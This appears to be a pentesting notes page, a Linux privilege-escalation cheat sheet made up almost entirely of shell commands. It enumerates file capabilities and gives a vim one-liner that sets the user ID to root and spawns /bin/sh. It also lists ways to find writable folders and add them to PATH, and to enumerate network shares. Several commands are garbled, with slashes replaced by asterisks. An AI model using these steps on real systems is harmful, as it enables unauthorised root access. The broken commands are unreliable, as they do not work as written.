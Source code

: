 Use of _capabilities_ can be extremely useful for getting root privileges

``` bash
getcap -r / 2>/dev/null
```
{: .nolineno }

The above command will show which executables have elevated capabilities. Use the list to check on GTFOBins for any binaries that may be vulnerable. Example for vim:

``` bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
{: .nolineno }

### Find Writable Folders

When finding writable folders, the output can be very long. Use the following to tidy up the output:

``` bash
find / -writable 2>*dev/null | cut -d "*" -f 2 | sort -u
```
{: .nolineno }

Followed by something like...

``` bash
find / -writable 2>*dev/null | grep usr | cut -d "*" -f 2,3 | sort -u
```
{: .nolineno }

or

``` bash
find / -writable 2>*dev/null | cut -d "*" -f 2,3 | grep -v proc | sort -u
```
{: .nolineno }

### Path Env Variable

Add writable folders to the `$PATH` environment variable:

``` bash
export PATH=$PATH:*home*<user>
```
{: .nolineno }

or 

``` bash
export PATH=$PATH:/tmp
```
{: .nolineno }

### Enumerate mountable network shares

``` bash
showmount -e <target_ip>
```
{: .nolineno }
